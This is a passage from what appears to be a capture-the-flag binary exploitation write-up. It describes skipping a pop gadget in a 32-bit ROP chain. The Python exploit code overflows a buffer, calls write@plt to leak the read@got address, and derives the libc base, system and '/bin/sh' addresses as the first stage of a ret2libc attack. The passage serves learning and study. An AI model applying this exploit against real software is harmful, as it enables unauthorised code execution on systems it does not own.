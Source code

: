     One alternative approach is to avoid using `pop_three_gadget` altogether. Instead, we can directly replace it with the main address, which serves as the return address once the function has finished executing. This method streamlines the process by bypassing the need for an additional gadget, simplifying the flow and making the exploit more efficient. By placing the return address at the proper location, we can control the execution and achieve our desired result without relying on external gadgets. This will look like this:

    ![image.png](image.png)

    - **Part 1 of exploit (not use `pop_three_gadget`)**

        ```python
        # Stage 1: Leak libc address

        # write(1,read@got,0x40)
        pl = b'A' * 0x48
        pl += p32(exe.plt.write)# main saved rip has been overwrited
        pl += p32(exe.sym.main) # ret address
        pl += p32(0x1)          # arg 1
        pl += p32(exe.got.read) # arg 2
        pl += p32(0x40)         # arg 3

        s(pl)

        ru(b'A'*0x40)
        leak_libc = u32(rnb(4))
        libc.address = leak_libc - libc.sym.read
        slog("Libc leak",leak_libc)
        slog("Libc base", libc.address)
        slog("System", libc.sym.system)
        slog("/bin/sh", next(libc.search(b'/bin/sh')))
        ```

